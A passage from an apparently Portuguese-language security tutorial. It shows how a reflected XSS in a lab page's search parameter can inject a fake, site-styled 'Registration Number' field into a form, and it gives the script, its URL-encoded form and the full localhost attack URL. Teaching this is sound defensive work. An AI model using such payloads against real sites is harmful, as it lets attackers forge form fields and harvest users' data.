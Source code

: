 O campo foi inserido, porém, <span style="color: #1cce43">TEMOS UM PROBLEMA!</span>

O novo campo ficou totalmente desconfigurado, nitidamente um alien dentro do formulário.

Isto aconteceu, pois criamos um novo campo, porém não inserimos nenhum atributo, como classes CSS, ou *placeholder* para torná-lo natural. Podemos fazer isto com o método `setAttribute()`.

Quando olhamos para o código HTML, podemos ver que os campos *input* do formulário, estão formatados com a classe CSS `input-block-level`.

![Classes](/img/posts/2023-06-21-beyond-the-alert-9.png)

O código final, fica desta forma:

```html
<script>
	var input = document.createElement("input");
	input.setAttribute("type", "text");
	input.setAttribute("class", "input-block-level");
	input.setAttribute("placeholder", "Registration Number");
	input.setAttribute("name", "regnum");
	var prev = document.forms[0].elements[0];
	document.forms[0].insertBefore(input, prev);
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22input%22%29%3B%0A%09input.setAttribute%28%22type%22%2C%20%22text%22%29%3B%0A%09input.setAttribute%28%22class%22%2C%20%22input-block-level%22%29%3B%0A%09input.setAttribute%28%22placeholder%22%2C%20%22Registration%20Number%22%29%3B%0A%09input.setAttribute%28%22name%22%2C%20%22regnum%22%29%3B%0A%09var%20prev%20%3D%20document.forms%5B0%5D.elements%5B0%5D%3B%0A%09document.forms%5B0%5D.insertBefore%28input%2C%20prev%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/02/?search=%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22input%22%29%3B%0A%09input.setAttribute%28%22type%22%2C%20%22text%22%29%3B%0A%09input.setAttribute%28%22class%22%2C%20%22input-block-level%22%29%3B%0A%09input.setAttribute%28%22placeholder%22%2C%20%22Registration%20Number%22%29%3B%0A%09input.setAttribute%28%22name%22%2C%20%22regnum%22%29%3B%0A%09var%20prev%20%3D%20document.forms%5B0%5D.elements%5B0%5D%3B%0A%09document.forms%5B0%5D.insertBefore%28input%2C%20prev%29%3B%0A%3C%2Fscript%3E](http://localhost/02/?search=%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22input%22%29%3B%0A%09input.setAttribute%28%22type%22%2C%20%22text%22%29%3B%0A%09input.setAttribute%28%22class%22%2C%20%22input-block-level%22%29%3B%0A%09input.setAttribute%28%22placeholder%22%2C%20%22Registration%20Number%22%29%3B%0A%09input.setAttribute%28%22name%22%2C%20%22regnum%22%29%3B%0A%09var%20prev%20%3D%20document.forms%5B0%5D.elements%5B0%5D%3B%0A%09document.forms%5B0%5D.insertBefore%28input%2C%20prev%29%3B%0A%3C%2Fscript%3E)
